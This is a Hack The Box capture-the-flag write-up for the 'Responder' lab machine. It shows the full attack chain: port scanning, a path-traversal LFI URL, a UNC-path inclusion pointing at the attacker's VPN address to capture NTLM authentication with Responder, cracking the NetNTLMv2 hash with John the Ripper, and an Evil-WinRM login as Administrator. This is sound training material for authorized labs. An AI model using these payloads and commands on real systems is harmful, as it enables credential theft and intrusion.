



# Responder

    

Lab link: [Responder](https://app.hackthebox.com/starting-point)

## Reconnaissance

I scanned all TCP ports to identify the services exposed by the active lab target:

```bash
nmap -Pn -p- -T4 --min-rate 2000 <target-ip>
```

The scan found HTTP on port 80, WinRM on port 5985, and an additional service on port 7680. HTTP and WinRM were relevant to the investigation: the website exposed the vulnerable page parameter, and WinRM later provided remote shell access.



## Overview

Responder is a Very Easy Hack The Box Starting Point machine focused on web parameter analysis, Local File Inclusion (LFI), Remote File Inclusion (RFI), NTLM authentication, and password recovery from a captured NetNTLMv2 challenge/response.

## Objective

The objective was to enumerate the target, identify how the web application loads pages, use the authorized lab vulnerability to trigger an authentication request, recover the supplied account password, and access the Windows host through the exposed management service.

## Scope and evidence

All activity was performed against the authorized Hack The Box Starting Point target. The target address, captured hash, password, and flag value are not reproduced in the text of this write-up.

## Investigation process

### 1. Confirming the web service

I started with a full TCP scan and service detection to identify the available attack surface:

```bash
nmap -Pn -p- -T4 --min-rate 2000 <target-ip>
```

The target exposed HTTP on port 80 and Windows Remote Management (WinRM) on port 5985. A follow-up request to the web service showed that the application redirected visitors from the IP address to the `unika.htb` host name. I added the host name to `/etc/hosts` so the browser could resolve it locally.


### 2. Identifying the application technology and parameter

I inspected the response headers with `curl`:

```bash
curl -I http://<target-ip>/
```

The headers identified Apache on Windows and PHP. The page URL also contained a `page` parameter used to select the language/page content. This parameter was the most relevant input for the next test because the server was using it to decide which resource to include.


### 3. Verifying Local File Inclusion

I tested whether the `page` parameter could access a local file outside the intended web directory by supplying a Windows path traversal sequence:

```text
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

The response displayed the Windows `hosts` file. The PHP warning also referenced `C:\xampp\htdocs\index.php`, confirming that the target was including the requested path on the local Windows system. This demonstrated an LFI condition: a local file that was not intended to be publicly readable was returned through the page parameter.



### 4. Triggering a remote authentication request

I then supplied a UNC-style network path that pointed back to my VPN interface:

```text
http://unika.htb/index.php?page=//<vpn-ip>/somefile
```

The filename was only a placeholder. The important behavior was that the Windows server attempted to access the remote SMB-style path. I ran Responder on the VPN interface to listen for that connection:

```bash
sudo responder -I tun0
```

Responder reported that it was listening on `tun0`. When the vulnerable application attempted to include the remote path, Responder captured an NTLMv2-SSP authentication exchange from the target. The captured log was saved under `/usr/share/responder/logs/`.


### 5. Recovering the password from the NetNTLMv2 exchange

The captured value was a NetNTLMv2 challenge/response, not a plaintext password. I used the supplied `rockyou` wordlist with John the Ripper to test candidate passwords:

```bash
sudo gzip -dk /usr/share/wordlists/rockyou.txt.gz
john --wordlist=/usr/share/wordlists/rockyou.txt \
  /usr/share/responder/logs/SMB-NTLMv2-SSP-<target-ip>.txt
```

John loaded one `netntlmv2` hash and found the password associated with the captured `Administrator` account. The password is intentionally omitted from this public note.


### 6. Accessing the Windows host with WinRM

The service scan showed WinRM on TCP port 5985. I used the recovered account details with Evil-WinRM:

```bash
evil-winrm -i <target-ip> -u Administrator -p <recovered-password>
```

The successful connection opened a PowerShell-style remote shell. I navigated to the `mike` user's desktop and listed the files:

```powershell
cd C:\Users\mike\Desktop
dir
type flag.txt
```


The terminal evidence shows the `flag.txt` file being read successfully. The flag value itself is not repeated here.


## Technical analysis

The central issue was an unsafe file inclusion parameter. The application accepted a user-controlled `page` value and passed it to PHP's include logic without sufficiently restricting the path. Directory traversal allowed local file access (LFI). A UNC path caused the Windows host to attempt a remote resource access, which resulted in an NTLM authentication exchange to the Responder listener.

Responder did not recover the plaintext password directly. It captured the challenge/response generated by the Windows authentication protocol. John the Ripper then tested wordlist candidates by calculating the expected response and comparing it with the captured value.

## Lessons learned

- Inspect URL parameters that control file or template loading.
- Test traversal carefully and interpret application warnings as useful evidence.
- Understand the difference between LFI, RFI, and a remote authentication side effect.
- Select the correct VPN interface when running network listeners such as Responder.
- Use service enumeration to choose the appropriate remote access tool; WinRM on 5985 led to Evil-WinRM rather than RDP.

## Result

The Responder challenge objective was completed successfully. The completion proof and screenshots document the scan, web investigation, authentication capture, password recovery, and flag retrieval.


